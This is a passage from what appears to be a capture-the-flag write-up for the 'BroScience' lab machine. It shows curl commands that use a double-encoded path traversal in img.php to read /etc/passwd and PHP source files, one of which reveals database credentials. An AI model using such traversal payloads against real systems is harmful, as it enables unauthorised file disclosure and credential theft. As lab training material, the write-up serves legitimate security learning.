 ``` bash
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Being able to do the above we just go for what we saw on the web

``` bash
❯ curl -k 'https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252F..%252Fvar%252Fwww%252Fhtml%252Fincludes%252Fdb_connect.php'
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>%                                                                                           
     ~/HTB/BroScience/content     

```

``` bash
❯ curl -k 'https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252F..%252Fvar%252Fwww%252Fhtml%252Fincludes%252Futils.php'
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

// Source: https://stackoverflow.com/a/4420773 (Slightly adapted)
function rel_time($from, $to = null) {
    $to = (($to === null) ? (time()) : ($to));
    $to = ((is_int($to)) ? ($to) : (strtotime($to)));
    $from = ((is_int($from)) ? ($from) : (strtotime($from)));

    $units = array
    (
        "year"   => 29030400, // seconds in a year   (12 months)
        "month"  => 2419200,  // seconds in a month  (4 weeks)
        "week"   => 604800,   // seconds in a week   (7 days)
        "day"    => 86400,    // seconds in a day    (24 hours)
        "hour"   => 3600,     // seconds in an hour  (60 minutes)
        "minute" => 60,       // seconds in a minute (60 seconds)
        "second" => 1         // 1 second
    );

    $diff = abs($from - $to);

```